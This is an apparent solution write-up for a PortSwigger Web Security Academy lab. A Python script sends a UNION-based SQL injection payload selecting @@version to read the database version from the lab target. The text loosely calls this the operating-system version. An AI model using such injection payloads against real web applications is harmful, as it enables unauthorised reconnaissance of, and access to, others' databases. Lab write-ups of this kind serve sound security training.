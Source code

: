 ```yaml
---
title:
  SQL injection attack, querying the database type and version on MySQL and
  Microsoft
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft/">
7. SQL injection attack, querying the database type and version on MySQL and Microsoft</a>

We abuse a SQL injection vulnerability to conduct another UNION attack. This
time, we use the UNION attack to retrieve information about the target operating
system. Using the MySQL @@version function in the string column of one of the
database tables, we're able to expose the version of the operating system.

Solution:

```python
# usage:
# python3 7.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")

    def solve(self) -> None:
        s = requests.Session()
        r = s.get(
            f"{self.url}/filter?category=Gifts'+UNION+SELECT+%40%40version,+'def'%23"
        )
        version = re.findall(r"<th>(.*ubuntu.*)</th>", r.text)[0]
        print(f"Target is running: {version}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
